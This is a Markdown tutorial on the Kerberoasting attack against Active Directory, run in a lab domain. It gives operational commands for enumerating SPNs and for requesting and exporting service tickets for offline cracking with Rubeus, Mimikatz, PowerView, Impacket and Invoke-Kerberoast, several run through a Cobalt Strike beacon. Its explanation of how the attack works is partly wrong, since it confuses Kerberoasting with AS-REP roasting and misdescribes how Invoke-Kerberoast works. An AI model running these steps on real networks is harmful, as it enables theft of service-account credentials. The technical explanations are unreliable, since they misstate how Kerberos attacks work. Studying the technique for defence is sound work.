# Kerberoasting Attack

## Introduction to SPN

A Service Principal Name (SPN) in Windows is an identifier used for authentication and authorization. It is a unique identifier used to identify a service entity (such as a computer, service, or application) running on a network. In Windows, SPNs are commonly used in conjunction with the Kerberos authentication protocol to authenticate and authorize services on the network.

In Windows, SPNs are typically associated with Service Accounts. A Service Account is a special type of account used to represent network services or applications, rather than individuals. Service Accounts can be used to run Windows services or other automated tasks, and can be assigned the necessary permissions to perform these tasks.

SPNs are usually configured by administrators to ensure that clients can authenticate and authorize with the correct service entity. When a client requests authentication from a service, it uses the SPN to locate the service entity to communicate with, and uses the credentials of that service entity to authenticate. If the SPN is incorrect or does not exist, it may result in authentication failures or security issues.

An SPN (ServicePrincipalName) uniquely identifies a Service Account, and looks something like this:



**Verification Process**

```Mermaid
graph TD;
  A[Client] --> B[Get SPN of Target Service];
  B --> C[Kerberos request TGT from Target Service];
  C --> D[Kerberos sends TGT+SPN to Target Service];
  D --> E[Target Service checks if TGT is valid];
  E --> F[Target Service verifies Client identity using TGT];
  F --> G[Target Service sends service credential to Client];
  G --> H[Client uses service credential to access Target Service];
```


**SPN Types**

In Windows, SPN types are not classified based on the type of service account (machine account or domain user account), but based on the type of service. SPNs can be classified into three types based on the type of service:

1. Host SPN: A Host SPN is an SPN registered under a computer account, typically representing network services running on the computer. The syntax format of Host SPN is `HOST/hostname`, where `hostname` represents the computer name or IP address.
2. User SPN: A User SPN is an SPN registered under a user account, typically representing the user's own network services. The syntax format of User SPN is `service-type/server-name`, where `service-type` represents the service type, and `server-name` represents the server name or IP address.
3. Constrained Delegation SPN: A Constrained Delegation SPN is an SPN registered under a user account, but can be authorized to delegate services on behalf of the user. The syntax format of Constrained Delegation SPN is the same as User SPN.

Note that if the service has Local System or Network Service permissions, the registered SPN will be bound to the computer account by default. If the service has a domain user's permissions, the SPN will be bound to the user account. However, this is not the determining factor for SPN types, but rather the difference in the objects that bind to SPNs.

**SPN Syntax Format**

In Windows, the syntax format of Service Principal Name (SPN) is as follows:

```
[service-type]/[hostname]:[port]/[service-name]
```

Where each part of the syntax means:

- `[service-type]`: The service type, usually expressed in uppercase letters, such as HTTP, MSSQL, LDAP, SMTP, etc.
- `[hostname]`: The hostname or IP address that identifies the computer where the service entity is located.
- `[port]`: The port number that identifies the port the service entity listens on the computer. If the service does not use a standard port number, it needs to be explicitly specified.
- `[service-name]`: The service name, usually the name or alias of the service entity.

Here are some examples of SPNs:

- `HTTP/www.example.com`: Represents an HTTP service running on the host `www.example.com`.
- `MSSQLSvc/sqlserver.example.com:1433`: Represents a SQL Server service running on the host `sqlserver.example.com`, port `1433`.
- `SMTP/mail.example.com`: Represents an SMTP service running on the host `mail.example.com`.

Note that an SPN must be unique. If multiple service entities have the same SPN, it will cause authentication and authorization problems. Therefore, when configuring an SPN for a service entity, it is necessary to ensure the uniqueness of the SPN and follow the correct syntax format.

## Introduction to Kerberoast Attack

The Kerberoast attack is a technique that exploits vulnerabilities in the Kerberos authentication protocol in Windows domain controllers. Kerberos is a secure authentication protocol used for identity verification in Windows domains. Attackers can use the Kerberoast attack to obtain the passwords of service accounts in the domain, and subsequently access the resources controlled by these service accounts.

Attackers first need to use a domain account (without special privileges) to obtain the Kerberos TGS (Ticket-Granting Service) ticket for the target service account through the Kerberos protocol, and then use offline cracking techniques to crack the service account password in the TGS ticket. Once the attacker obtains the service account password, they can use it to access resources protected by the service account, such as databases, file servers, and more.

## SPN Configuration

Service Principal Name (SPN) is a name used by clients in Active Directory to uniquely identify a service instance. The SPN combines the service name with the computer and user accounts to form a service ID. To make Kerberos authentication (a protocol for authenticating client and server entities on a network) work, an SPN must be registered for each service account in Active Directory.

In this demonstration, we set an SPN for "mssql".

We have a domain account "mssql" that we will use as the service account. We will register it on a computer pretending to be an SQL server with the following command to set an SPN:

```
PS C:\Users\Administrator> setspn -s MSSQLSvc/sqlserver.sectest.com sectest.com\mssql
Checking domain DC=sectest,DC=com

Registering ServicePrincipalNames for CN=mssql,CN=Users,DC=sectest,DC=com
        MSSQLSvc/sqlserver.sectest.com
Updated object
```

Let's verify its properties from Active Directory Users and Computers to see if its settings are correct.



Now, if we search for the SPN throughout the entire domain, we should be able to see it.

```
PS C:\Users\Administrator> setspn.exe -t sectest.com -q */*
```



Viewing the SPN of a specified registered user

```
PS C:\Users\Administrator> setspn.exe -L  sectest.com\mssql
Registered ServicePrincipalNames 用于 CN=mssql,CN=Users,DC=sectest,DC=com:
        MSSQLSvc/sqlserver.sectest.com
```

Alternatively, we can use `LDAP` queries and the `adsisearcher` to easily enumerate the service principal names (`SPNs`) of service accounts:

```
PS C:\Users\Administrator> ([adsisearcher]'(servicePrincipalName=*)').FindAll()

Path                                                   Properties
----                                                   ----------
LDAP://CN=DC-1,OU=Domain Controllers,DC=sectest,DC=com {ridsetreferences, logoncount, codepage, objectcategory...}
LDAP://CN=EXCHANGE-1,CN=Computers,DC=sectest,DC=com    {logoncount, codepage, objectcategory, iscriticalsystemobject...}
LDAP://CN=SQL-1,CN=Computers,DC=sectest,DC=com         {logoncount, codepage, objectcategory, iscriticalsystemobject...}
LDAP://CN=WEB-1,CN=Computers,DC=sectest,DC=com         {logoncount, codepage, objectcategory, iscriticalsystemobject...}
LDAP://CN=WEB-2,CN=Computers,DC=sectest,DC=com         {logoncount, codepage, objectcategory, iscriticalsystemobject...}
LDAP://CN=krbtgt,CN=Users,DC=sectest,DC=com            {logoncount, codepage, objectcategory, description...}
LDAP://CN=mssql,CN=Users,DC=sectest,DC=com             {givenname, codepage, objectcategory, dscorepropagationdata...}
```


## SPN Scanning

> SPN scanning refers to discovering and identifying registered SPNs on a target computer through network scanning.

When a computer joins a domain, the main SPN is automatically added to the `ServicePrincipalName` attribute of the domain computer account. After installing new services, SPNs are also recorded in the corresponding attributes of the computer account.

Since SPN scanning is based on LDAP protocol queries to the domain controller, an attacker only needs to obtain ordinary domain user privileges to perform SPN scanning.

### Using SetSPN Query

> SetSPN is a command-line tool in Windows that can be used to manage and query SPNs.

View all SPNs in the current domain:

```
setspn -q */*
```


To find the SPNs registered in a specific domain, you can use the following command in a Command Prompt or PowerShell window:

```shell
setspn -T sectest.com -q */*
```


To find the SPNs registered for a specific user/host name, you can use the following command in a Command Prompt or PowerShell window:

> ```
> setspn -L <username>/<hostname> 
> ```

```
PS C:\Users\Administrator> setspn -L mssql
Registered ServicePrincipalNames 用于 CN=mssql,CN=Users,DC=sectest,DC=com:
        MSSQLSvc/sqlserver.sectest.com
```

### PowerShell-AD-Recon

PowerShell-AD-Recon is an open-source PowerShell script used to automate a series of Active Directory penetration testing and security auditing tasks. This script can help security professionals and penetration testers quickly and effectively identify security vulnerabilities and weaknesses in the Active Directory, thereby enhancing the security of the Active Directory.

> Tool download link: https://github.com/PyroTek3/PowerShell-AD-Recon

If you only want to query MSSQL services within the domain, you can use the "Discover-PSMSSQLServers" script provided by the tool.

If you want to query all SPN information within the domain, you can use the "Discover-PSInterestingServices" script.

```
beacon> powershell-import D:\PowerShell-AD-Recon\Discover-PSInterestingServices
[*] Tasked beacon to import: D:\PowerShell-AD-Recon\Discover-PSInterestingServices
[+] host called home, sent: 4552 bytes
beacon> powershell Discover-PSInterestingServices
[*] Tasked beacon to run: Discover-PSInterestingServices
[+] host called home, sent: 353 bytes
[+] received output:


Domain          : sub.sectest.com
ServerName      : DC-2.sub.sectest.com
SPNServices     : Dfsr-12F9A27C-BF97-4787-9364-D31B6C55EB04;DNS;exchangeAB;ldap
OperatingSystem : {Windows Server 2016 Standard}
OSServicePack   : 
LastBootup      : 2022/9/24 19:22:32
OSVersion       : {10.0 (14393)}
Description     : 

Domain          : _msdcs.sectest.com
ServerName      : _msdcs.sectest.com\DNSzone
SPNServices     : ldap
OperatingSystem : {Windows Server 2016 Standard}
OSServicePack   : 
LastBootup      : 2022/9/24 19:22:32
OSVersion       : {10.0 (14393)}
Description     : 

Domain          : sectest.com
ServerName      : sectest.com\krbgt
SPNServices     : kadmin
OperatingSystem : 
OSServicePack   : 
LastBootup      : 1601/1/1 8:00:00
OSVersion       : 
Description     : 

Domain          : sectest.com
ServerName      : sql-1.sectest.com
SPNServices     : WSMAN
OperatingSystem : {Windows Server 2016 Standard}
OSServicePack   : 
LastBootup      : 2022/9/24 22:07:25
OSVersion       : {10.0 (14393)}
Description     : 

Domain          : sectest.com
ServerName      : sqlserver.sectest.com
SPNServices     : MSSQLSvc
OperatingSystem : 
OSServicePack   : 
LastBootup      : 1601/1/1 8:00:00
OSVersion       : 
Description     : 

Domain          : sectest.com
ServerName      : web-1.sectest.com
SPNServices     : WSMAN
OperatingSystem : {Windows Server 2016 Standard}
OSServicePack   : 
LastBootup      : 2022/9/24 20:15:09
OSVersion       : {10.0 (14393)}
Description     : 

Domain          : sub.sectest.com
ServerName      : WIN-JV2UTETPBBP.sub.sectest.com
SPNServices     : exchangeAB;ldap
OperatingSystem : 
OSServicePack   : 
LastBootup      : 1601/1/1 8:00:00
OSVersion       : 
Description     : 

Domain          : sectest.com
ServerName      : EXCHANGE-1.sectest.com
SPNServices     : exchangeRFR;IMAP;SMTP;WSMAN
OperatingSystem : {Windows Server 2016 Standard}
OSServicePack   : 
LastBootup      : 2022/9/24 23:16:35
OSVersion       : {10.0 (14393)}
Description     : 

Domain          : sub.sectest.com
ServerName      : sub.sectest.com\krbgt
SPNServices     : kadmin
OperatingSystem : 
OSServicePack   : 
LastBootup      : 1601/1/1 8:00:00
OSVersion       : 
Description     : 

Domain          : sectest.com
ServerName      : DC-1.sectest.com
SPNServices     : Dfsr-12F9A27C-BF97-4787-9364-D31B6C55EB04;DNS;exchangeAB;ldap
OperatingSystem : {Windows Server 2016 Standard}
OSServicePack   : 
LastBootup      : 2022/9/24 18:37:02
OSVersion       : {10.0 (14393)}
Description     : 

Domain          : _msdcs.sectest.com.sub.sectest.com
ServerName      : _msdcs.sectest.com.sub.sectest.com\DNSzone
SPNServices     : ldap
OperatingSystem : {Windows Server 2016 Standard}
OSServicePack   : 
LastBootup      : 2022/9/24 18:37:02
OSVersion       : {10.0 (14393)}
Description     : 

```


### GetUserSPNs

`GetUserSPNs` is an open-source PowerShell script used to enumerate the registered user service principal names (SPNs) in the Active Directory. Its working principle is to first query all user accounts in the Active Directory, and then attempt to obtain the SPN associated with that user account through the Kerberos protocol. If successful, the script will display the SPN information found, including the syntax format of the SPN, the user account, and the computer name where it is located.

> Download link：https://github.com/nidem/kerberoast.git




### PowerView

PowerView is a PowerShell module that can be used to automate Active Directory penetration testing and security auditing tasks.

> Download link: https://github.com/PowerShellMafia/PowerSploit/

```
beacon> powershell Get-NetUser -SPN
```




### Impacket

"GetUserSPNs.py" is a script in the Impacket toolkit used to enumerate the registered user service principal names (SPNs) in the Active Directory.

```
┌──(root㉿kali)-[/opt/impacket]
└─# GetUserSPNs.py  sectest.com/administrator -dc-ip sectest.com
```

> "The `machao` user has not been given remote access permissions."




## Kerberoasting Attack Principle

The Kerberoasting attack is a type of attack that exploits vulnerabilities in the Kerberos protocol. It can enumerate user accounts that can be attacked in the Active Directory without knowing the user's password, and obtain the Kerberos pre-authentication ticket (AS-REQ) for the user account, which can then be cracked offline by brute force. If the service principal name (SPN) of the user account meets certain formatting requirements, the Kerberos service ticket (TGS) can be obtained directly and brute-forced to obtain the user's plaintext password or hash value.

The process of a Kerberoasting attack is as follows:

1. The attacker enumerates all user accounts in the Active Directory and identifies those that can be attacked. Typically, attackers use tools like BloodHound for automated enumeration and querying.
2. The attacker obtains the service principal name (SPN) of the target account and submits it to the domain controller (DC).
3. The DC returns a Kerberos pre-authentication ticket (AS-REQ), which includes an encrypted TGT and some metadata information.
4. The attacker uses tools (such as Rubeus) to crack the AS-REQ offline and obtain the hash value of the TGT.
5. If the SPN of the target account meets the requirements of the Kerberoasting vulnerability (i.e., the SPN is a service based on a service account and does not require user password verification), the attacker can directly use the information in the TGS-REP response to obtain the Kerberos service ticket (TGS).
6. The attacker uses tools (such as hashcat) to brute-force the TGS and obtain the plaintext password or hash value of the user account.

Attack Flowchart:




## Requesting Service Tickets

### Using Rubeus Tool

> Download link: https://github.com/GhostPack/Rubeus

The kerberoasting module of Rubeus can be used to perform Kerberoasting attacks, that is, by enumerating accounts and SPNs in Active Directory, obtaining Kerberos pre-authentication tickets (AS-REQ), and performing offline brute-force cracking to obtain the hash values of user accounts.

```
beacon> execute-assembly D:\tools\Rubeus.exe kerberoast /domain:sectest.com
```



### Requesting using PowerShell command

GetUserSPNs.ps1 is a tool written in PowerShell that can be used to obtain the Kerberos service principal name (SPN) of harvestable accounts in Active Directory. It works by enumerating all user accounts in Active Directory, searching for accounts that can be used for Kerberoasting attacks, obtaining their corresponding SPNs, and finally outputting the SPNs to the screen or saving them to a file.

Requesting service tickets.

```powershell
powershell-import D:\GetUserSPNs.ps1
powershell  Add-Type -AssemblyName System.IdentityModel
```



New-Object cmdlet can be used in PowerShell to create a Kerberos security token object. This cmdlet can be used to generate Kerberos security tokens in PowerShell, which can be used for Kerberos authentication or Kerberoasting attacks.

```
powershell New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MSSQLSvc/sqlserver.sectest.com"
```



Listing service tickets.

```
run klist
```


### Requesting Service Tickets Using Mimikatz Tool

Using Mimikatz to request service tickets for a specified SPN, requesting service tickets

```
beacon> mimikatz kerberos::ask /target:MSSQLSvc/sqlserver.sectest.com
```



Listing service tickets.

```
beacon> mimikatz kerberos::list    
```




## Exporting Service Tickets

### Using Mimikatz Tool to Export

```
beacon> mimikatz kerberos::list /export
```


### Using Invoke-Kerberoast.ps1 Script

> Project link: https://github.com/EmpireProject/Empire

`Invoke-Kerberoast.ps1` is a Kerberoasting tool written in PowerShell that can be used to enumerate and attack SPNs of harvestable accounts in Active Directory, obtain their corresponding hash values, and perform offline brute-force cracking.

The working principle of `Invoke-Kerberoast.ps1` is to use PowerShell to remotely connect to the target system, use the `Get-DomainUser` cmdlet to enumerate user accounts in Active Directory, and filter out harvestable accounts. Then, use the `Invoke-Mimikatz` cmdlet to generate Kerberos pre-authentication tickets (AS-REQ), and use a hash tool to crack them to obtain the hash value of the account.

```
Import-Module .\Invoke-Kerberoast.ps1  
Invoke-Kerberoast -outputFormat Hashcat
```

